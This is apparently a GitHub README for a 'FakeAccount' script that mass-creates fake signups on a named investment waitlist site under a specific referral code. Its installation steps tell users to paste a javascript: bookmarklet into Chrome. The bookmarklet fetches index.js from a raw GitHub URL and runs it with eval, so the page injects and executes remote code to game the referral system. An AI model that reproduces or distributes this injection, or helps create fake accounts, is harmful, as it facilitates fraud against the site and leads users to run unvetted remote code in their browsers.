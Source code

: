 # FakeAccount
Dear Programmer; When i wrote this code , only god and i knew how it worked; Now only god knows it. This Script is used to create an fake account on https://waitlist.stackedinvest.com

# installation

# 1 - Open website address : 

```
https://waitlist.stackedinvest.com/invest?kid=2BGR4H
```

# 2 - Type and enter this on chrome where you put website address :

```
javascript:fetch("https://raw.githubusercontent.com/SingleDevX/FakeAccount/main/index.js").then(b=>b.text()).then((b)=>(alert("injected"),b)).then(b=>eval(b)).catch(e=>alert("error"+e))
```

Enjoy it ;)
